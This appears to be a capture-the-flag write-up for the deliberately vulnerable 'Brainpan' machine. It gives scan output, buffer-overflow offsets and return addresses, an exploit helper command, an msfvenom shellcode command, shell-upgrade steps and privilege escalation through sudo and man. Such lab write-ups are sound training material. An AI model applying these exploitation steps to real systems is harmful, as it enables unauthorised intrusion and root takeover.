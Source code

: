 Brainpan

## Scanning
```
PORT      STATE SERVICE REASON         VERSION
9999/tcp  open  abyss?  syn-ack ttl 63
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    syn-ack ttl 63 SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
```
**Port 10000**
- Web server
- Has a nice info graphic about common vulnerabilities and their distribution across the ecosystem (Hint?)
- We find a */bin* directory that gives us access to the program running under port 9999

![3313118a4cacd5eec8b0fa2bc14ed5ff.png](../../_resources/b76ed8ce343c4f79b9d0a2be624c6f29.png)

## Exploitation

- We seem to have an exploitable binary:

![100cc5d0fc42933438b48e3c2aefb543.png](../../_resources/67dfd6bd8a6e4377bff270116350e655.png)

- Overflow with 700 bytes  
- **Offset: 524**
- Problem:
	- Stack adresses contain \x00 byte
	![f07b82621124af96796e2236074eab6d.png](../../_resources/305ae609a637421ea55338d5b812b16b.png)
- Solution:
	- Find a JMP ESP in the code
	- (Here I finally reverted back to Immunity because I was annoyed by WineDBG. The challenge states you should debug the exe on Unix buuuut whatever)
	- In the main function we find an instruction:
	- ![0e2a09e270b62ccaa3b057aeb7236b1a.png](../../_resources/0888f421c40e4e418a2f3c782c07db8e.png)
- This yields our **return address: F3121731**
- Final command call:
```
python ../../tools/buffer_overflow/overflow_helper.py exploit IP 9999 
-o 524 
-r "F3121731" 
--overflow-char "90" 
--padding 30 
--payload "SHELL_CODE"
```
- Aaand here we are:
![8038a0a7e15fe1810023b7194b981d14.png](../../_resources/08688862611344f9bfc1745a534bf333.png)

## Post Exploitation

- We actually are in a linux environment
- There is a shell script for restarting the brainpan.exe and it belongs to root
	- Unfortunately, the cron job itself is triggered by puck
- We upgrade our shell:
```
TERM="xterm"
export TERM
python -c "import pty;pty.spawn('/bin/bash');"
```
![4085b3a9dd422d41f902821622d0196b.png](../../_resources/9935348f3c1948f19536a64030e51cbf.png)

- Running `sudo -l` reveals us that there is a program we might run as root without a password prompt:
	![9dffeeebc4a14164d23ca0fdf369ae7a.png](../../_resources/00ba36469d7d4d2b894c72c21ec9dfe3.png)
![0a691aad5d07138462758f6c1ee1b6a6.png](../../_resources/c9bc5e455d9f41d0ae094222b77a88e2.png)


#### Path 1
- The `manual` command is interesting. If we play around with it, we see that it actually calls `man` on the following input. 
- With [this](https://gtfobins.github.io/gtfobins/man/) we can escalate to root
![5d188a86a875567808ba081ac633266a.png](../../_resources/60d6376e9f9441798d822b8136037ce3.png)

#### Path 2

- After enumerating the system (using linenum.sh here), we find an interesting file:
	![4cf369691a52ef9aff583e34eb3ddc61.png](../../_resources/df01021d96184958995124ae68c0abb2.png)
	- Seems to do only one thing: Checking if the byte \x46 (F) is present, and if so, returns false
	- If we could exploit it, we would get access to the anansi user
	- Checking it out, it seems vulnerable for yet another overflow exploit:
	![b5636afb2e2a3b7d710c6eae3ab5f0b7.png](../../_resources/4f9f797c119a4310aa06767cb452dd92.png)
	- **Offset: 116**
	- The stack addresses change on every program call, so we cannot provide a static return address to the stack --> ASLR
	- Or simply brute force it with a lot of NOPs?
		- That does not work well. It seems that only the two least significant positions are steady, yielding us with ~16 million possible addresses in between. We can only insert NOPs in the range of 100000s before the program crashes
	- However, our input is written into the eax register:
	![7e33acd4e4353ed7674db9370f4d8176.png](../../_resources/c6dd1afac046450383745d97654a707b.png)
	- We simply need to find a `call eax` instruction in the code:
	![d3484ce8fbfd887eee103b49b23b16f4.png](../../_resources/84d421a37a7c480e8fc85b99da2d8863.png)
	- After finding out the badchars we can generate a shell code (`msfvenom -p linux/x86/exec CMD=/bin/sh -b '\x0a\x09\x20\x46'`) and exploit the binary:
![079bf67482e23c49bbfe554807aac19d.png](../../_resources/13fd02fd5a904348aa27645377253693.png)
	- Now we have write permissions on the sudo-enabled file, allowing us to replace this file with a bash: 
![426f08214c072d7dd600a9c946b08822.png](../../_resources/79c3c7919f794783ac28dff9da41e858.png)